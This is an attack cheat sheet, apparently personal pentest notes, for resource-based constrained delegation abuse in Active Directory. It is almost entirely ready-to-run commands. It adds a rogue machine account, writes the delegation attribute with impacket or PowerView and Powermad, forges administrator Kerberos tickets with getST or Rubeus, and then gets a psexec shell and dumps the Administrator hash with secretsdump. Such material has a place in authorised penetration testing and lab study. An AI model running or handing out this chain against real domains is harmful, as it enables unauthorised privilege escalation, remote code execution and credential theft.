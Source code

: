 ```yaml
---
title: "RBCD Attack"
date: 2024-7-30
tags: ["GenericAll", "active driectory", "ad", "Windows", "rbcd", "resource-based constrained delegation", "s4u", "impersonate"]
---
```


---
### RBCD Attack (From Linux)

#### 0. Check machine account quota

```bash
nxc ldap 10.10.11.10 -u <USER> -p <PASSWORD> -M MAQ
```

#### 1. Add a fake computer

```bash
impacket-addcomputer -computer-name 'EvilComputer' -computer-pass 'password' -dc-ip 10.10.11.10 <DOMAIN>/<USER>:<PASSWORD>
```

#### 2. Rbcd attack

```bash
impacket-rbcd -delegate-to <TARGET_COMPUTER>$ -delegate-from EvilComputer$ -dc-ip <DC> -action 'write' <DOMAIN>/<USER>:<PASSWORD>
```

#### 3. Impersonate

```bash
sudo ntpdate -s <DC> && impacket-getST -spn cifs/<TARGET_DOMAIN> -impersonate administrator -dc-ip <DC> '<DOMAIN>/EvilComputer:password'
```

#### 4. Import ticket

```bash
export KRB5CCNAME=administrator@cifs_<TARGET_DOMAIN>@<DOMAIN>.ccache
```

#### 5. Post-Attack

```bash
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```bash
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

### RBCD Attack (From Windows)

#### 1. Import PowerView.ps1 

```powershell
. .\PowerView.ps1
```

#### 2. Check machine account quota

```powershell
Get-DomainObject -Identity 'DC=<EXAMPLE>,DC=<COM>' | select ms-ds-machineaccountquota
```

#### 3. Import Powermad.ps1

[Powermad.ps1](https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1)

```powershell
. .\Powermad.ps1
```

```powershell
New-MachineAccount -MachineAccount EvilComputer -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)
```

#### 4. Attack

```powershell
$fakesid = Get-DomainComputer EvilComputer | select -expand objectsid
```

```powershell
$fakesid
```

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
```

```powershell
$SDBytes = New-Object byte[] ($SD.BinaryLength)
```

```powershell
$SD.GetBinaryForm($SDBytes, 0)
```

```powershell
Get-DomainComputer TARGET_COMPUTER$ | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### 5. Check SecurityIdentifier is now fakesid 

```powershell
$RawBytes = Get-DomainComputer TARGET_COMPUTER -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```

```powershell
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```

```powershell
$Descriptor.DiscretionaryAcl
```

#### 6. Impersonate

```powershell
.\rubeus.exe hash /password:password /user:EvilComputer /domain:<DOMAIN>
```

```powershell
.\rubeus.exe s4u /user:EvilComputer$ /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/<TARGET_DOMAIN> /ptt /nowrap
```

#### 7. Convert to ccache format

[RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)

```bash
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

```bash
export KRB5CCNAME=secrets.ccache
```

#### 8. Post-Attack

```bash
# Remote
sudo ntpdate -s <DC> && impacket-psexec <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass
```

```bash
# Or secretsdump
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-user Administrator
```

<br>
